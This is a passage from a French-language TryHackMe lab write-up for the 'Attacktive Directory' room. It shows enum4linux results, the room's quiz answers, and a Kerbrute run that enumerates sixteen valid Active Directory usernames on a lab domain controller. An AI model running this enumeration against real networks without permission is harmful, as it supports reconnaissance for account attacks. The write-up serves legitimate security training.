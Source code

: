 ```bash
[*] Trying port 139/tcp
[-] SamrConnect2 call failed on port 139/tcp: STATUS_ACCESS_DENIED

 =================================================
|    Printers via RPC for attacktivedirect.thm    |
 =================================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 11.56 seconds
```

Normalement je le fait avec enum4linux, mais il fonctionne mal.   

La réponse est : enum4linux    

**What is the NetBIOS-Domain Name of the machine?**

D'après les résultats de enum4linux-ng, le domaine NetBios est : THM-AD.   

**What invalid TLD do people commonly use for their Active Directory Domain?**

D'après le scan  enum4linux-ng le TLD invalid est : .local   

## Task 4 Enumeration Enumerating Users via Kerberos ##

**What command within Kerbrute will allow us to enumerate valid usernames?**

```bash
sudo sh -c "echo '10.10.87.247 spookysec.local' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt -nv
2021-08-25 13:04:42 URL:https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt [540470/540470] -> "userlist.txt" [1]

tim@kali:~/Bureau/tryhackme/write-up$ ./kerbrute_linux_amd64 userenum -d spookysec.local --dc spookysec.local ./userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/25/21 - Ronnie Flathers @ropnop

2021/08/25 13:07:13 >  Using KDC(s):
2021/08/25 13:07:13 >  	spookysec.local:88

2021/08/25 13:07:13 >  [+] VALID USERNAME:	 james@spookysec.local
2021/08/25 13:07:13 >  [+] VALID USERNAME:	 svc-admin@spookysec.local
2021/08/25 13:07:14 >  [+] VALID USERNAME:	 James@spookysec.local
2021/08/25 13:07:14 >  [+] VALID USERNAME:	 robin@spookysec.local
2021/08/25 13:07:17 >  [+] VALID USERNAME:	 darkstar@spookysec.local
2021/08/25 13:07:19 >  [+] VALID USERNAME:	 administrator@spookysec.local
2021/08/25 13:07:23 >  [+] VALID USERNAME:	 backup@spookysec.local
2021/08/25 13:07:25 >  [+] VALID USERNAME:	 paradox@spookysec.local
2021/08/25 13:07:36 >  [+] VALID USERNAME:	 JAMES@spookysec.local
2021/08/25 13:07:40 >  [+] VALID USERNAME:	 Robin@spookysec.local
2021/08/25 13:08:03 >  [+] VALID USERNAME:	 Administrator@spookysec.local
2021/08/25 13:08:48 >  [+] VALID USERNAME:	 Darkstar@spookysec.local
2021/08/25 13:09:03 >  [+] VALID USERNAME:	 Paradox@spookysec.local
2021/08/25 13:09:59 >  [+] VALID USERNAME:	 DARKSTAR@spookysec.local
2021/08/25 13:10:14 >  [+] VALID USERNAME:	 ori@spookysec.local
2021/08/25 13:10:41 >  [+] VALID USERNAME:	 ROBIN@spookysec.local
2021/08/25 13:11:54 >  Done! Tested 73317 usernames (16 valid) in 281.902 seconds
```